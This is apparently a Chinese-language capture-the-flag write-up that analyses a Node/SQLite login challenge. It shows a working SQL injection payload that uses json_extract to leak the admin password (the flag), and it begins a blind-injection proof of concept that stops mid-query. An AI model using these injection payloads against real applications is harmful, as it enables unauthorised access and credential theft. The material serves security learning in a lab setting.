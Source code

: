 這一題超爆難，應該可以預見被splitline凌虐，先看Dockerfile寫了甚麼，安裝的前置作業結束以後，分別把FLAG1和FLAG2的內容丟到`/flag1.txt`,`/flag2-{random string}.txt`中，並且執行db的初始化，也就是把FLAG1當成admin的密碼，接著比較重要的一步是把存取db內容的file(`/etc/db.sqlite3`)的權限設定read-only，這個操作後續會說明重要的地方，最後就是執行app.js

* 目標:
    我們的目標是想辦法把FLAG1拿到手，但看了一圈app.js也沒有任何想法，雖然我知道username的地方有SQLinjection的洞，但重要的是如何把密碼送到前端給我們
* 一開始的想法:
    送出post request後，會進到login route，並且db會對送來的username / password進行query，此時會發現有兩個if statement，當時我在想，只要滿足第一個if statement，他就會return並且render出原本的username，所以如果我可以創一個新的table或是insert原本的users table，並且把username設定成FLAG1，然後password設定已知，這樣的話就一定會進到第二個if statement，如此就算我不知道FLAG1是多少，他也會把username吐回來到前端
    ```javascript
    if (row.password === password) {
        if (password !== FLAG1) {
            const html = ejs.render(`<h1>Success!</h1>`, { username });
            return res.send(html);
        } else {
            const html = ejs.render(template, { username });
            return res.send(html);
        } 
    } else {
        return res.status(401).send('Unauthorized');
    }
    ```
    但這個做法有兩個原因導致無法實踐
    1. 前面講過，splitline把`/etc/db.sqlite3`設定成read-only，所以我們無法對他做任何修改
    2. 就算這個file可以修改，因為ejs.render的關係，如果給定的1st參數沒有format可以填入(就像第二個if出現的template)，他並不會把username一起render進去，雖然我也不確定為甚麼要這樣寫
* 比較可行的方式
    1. 逛了好幾圈app.js都沒有任何可以把username吐回前端的地方，代表這個思路應該不是可行的方式，此時可以想想看time based或是boolean based 這種blind injection，可能是個不錯的方式，雖然我也有嘗試union based，不過效果不大
    2. 因為是完全沒有任何filter的sql injection，所以我就直接在local的sqlite db browser下語法順便debug，當payload如下時:
        ```sql!
        admin.username") as a,
          json_extract(users, '$.admin.username') as b,
          json_extract(users, '$.admin.password') as c
        FROM db -- #
        ```
        * 在server端會變成
            ```sql!
            "$.admin.username\") as a,   json_extract(users, '$.admin.username') as b,   json_extract(users, '$.admin.password') as c FROM db -- # .password"
            ```
        * 完整的query會變成
            ```sql!
            SELECT json_extract(users, "$.admin.username\") as a,   json_extract(users, '$.admin.username') as b,   json_extract(users, '$.admin.password') as c FROM db -- # .password") AS password FROM db
            ```
        * 則query到的data如下
            ```sql!
            { a: null, b: 'admin', c: 'FLAG{flag-1}' }
            ```
        第一個參數a為null是因為app.js中，我們的payload經過==JSON.stringify==，會在雙引號前加一個反斜線，這會導致query時，db不知道==$.admin.username\==是甚麼東西，只有單引號沒有這個問題，但如果第一個query data不加上雙引號就會導致閉合不全而導致結果異常(如下)
        ![圖片](https://hackmd.io/_uploads/Hy29LmYvp.png)
        所以我乾脆第一個參數就算了，重新利用後兩個參數要到username和password
    3. 有了這個可以幹嘛呢?我們可以下條件，當條件符合的時候做A，否則做B，而A和B是有一些差異，可能是時間長度或是網站是否crash為基準，這樣的話我們就可以知道下的條件是否正確，POC如下:
        * 看長度
            ```sql
            SELECT 
              json_extract(users, '$.admin.username') as a,
              json_extract(users, '$.admin.username') as b,
              json_extract(users, '$.admin.password') as c
            FROM db